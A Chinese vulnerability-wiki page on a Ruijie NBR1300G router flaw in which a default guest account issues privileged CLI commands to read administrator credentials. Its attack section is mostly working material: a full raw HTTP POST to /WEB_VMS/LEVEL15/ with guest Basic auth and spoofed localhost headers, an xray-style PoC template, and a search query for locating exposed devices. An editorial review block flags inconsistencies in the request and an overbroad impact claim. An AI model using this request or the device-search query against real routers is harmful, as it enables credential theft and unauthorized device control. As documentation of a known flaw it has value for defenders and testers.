

# 锐捷 NBR 1300G 路由器 越权 CLI 命令执行漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ruijie NBR1300G
- 本文讨论：guest越权LEVEL15设备CLI读取管理员凭据
- 版本、权限与配置前提：guest/guest有效账户；固件未知
- 资料类型：越权PoC/检测模板；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 原始请求show%webmaster%user百分号非有效空格编码，模板用真实空格，两者不一致
- 原始请求带4个伪造IP头，xpoc未带，是否必要未解释
- CLI是设备配置命令，不等同底层OS任意代码执行；模板只匹配guest行未证明管理员密码读取
- 影响写整个NBR系列过宽
- 历史校订意见（原始示例按归档保留，下述改写不再应用于原始示例）：“show%webmaster%user”改为“show%20webmaster%20user”；HTTP 报文围栏改为 http。以上意见置于原始示例之外，不覆盖原文证据；未做运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- xray原模板、固件及IP头必要性待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

锐捷 NBR 1300G 路由器 越权 CLI 命令执行漏洞，guest 账户可以越权获取管理员账号密码

参考链接：

- https://github.com/chaitin/xray/blob/master/pocs/ruijie-nbr1300g-cli-password-leak.yml

## 漏洞影响

```
锐捷 NBR 路由器
```

## 网络测绘

```
title="锐捷网络 --NBR路由器--登录界面"
```

## 漏洞复现

登录页面如下


执行 CLI 命令 `show webmaster user` 查看用户配置账号密码：

```http
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show%webmaster%user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```




## 漏洞 POC

xpoc

```
name: poc-yaml-ruijie-nbr1300g-cli-password-leak
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: POST
            path: /WEB_VMS/LEVEL15/
            headers:
                Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
            body: |
                command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
            follow_redirects: false
        expression: response.status == 200 && response.body.bcontains(bytes("webmaster level 2 username guest password guest"))
expression: r0()
detail:
    author: abbin777
    links:
        - http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7NBR%201300G%E8%B7%AF%E7%94%B1%E5%99%A8%20%E8%B6%8A%E6%9D%83CLI%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
